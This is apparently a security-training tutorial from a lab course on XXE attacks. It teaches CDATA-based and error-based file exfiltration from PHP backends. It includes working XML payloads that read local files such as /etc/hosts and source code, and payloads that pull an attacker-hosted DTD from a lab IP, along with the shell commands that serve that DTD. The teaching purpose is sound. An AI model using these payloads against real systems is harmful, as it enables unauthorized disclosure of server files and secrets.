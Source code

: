 # Advanced File Disclosure
## Advanced Exfiltration with CDATA
We can utilize another method to extract any kind of data (including binary data) for any web application backend. 

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///flag.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- After that, if we reference the `&joined;` entity, it should contain our escaped data.
- However, `this will not work, since XML prevents joining internal and external entities`, so we will have to find a better way to do so.

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD.

If we reference parameter entities from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:
```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, we can try to read a file (e.g. `submitDetails.php`) by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:
```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
```
```bash
python3 -m http.server 8000
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.15.243:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```
```xml
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
![Image showing an HTTP POST request to /submitDetails.php with XML data, including a DOCTYPE declaration for an XXE attack. The response is an HTTP 200 OK with PHP code processing XML input, potentially vulnerable to XXE.](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg)
## Error Based XXE
Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output.

First, let's try to send malformed XML data, and see if the web application displays any errors:
![HTTP POST request to /error/submitDetails.php with XML data causing a 'nonExistingEntity' error in PHP response.](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg)
- We did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files.

Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
- Defines the `file` parameter entity and then joins it with an entity that does not exist.
- In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:
```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows: ![HTTP POST request to /error/submitDetails.php with XML DOCTYPE for XXE attack, causing invalid URI error in PHP response.](https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg)
- This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). 
- However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.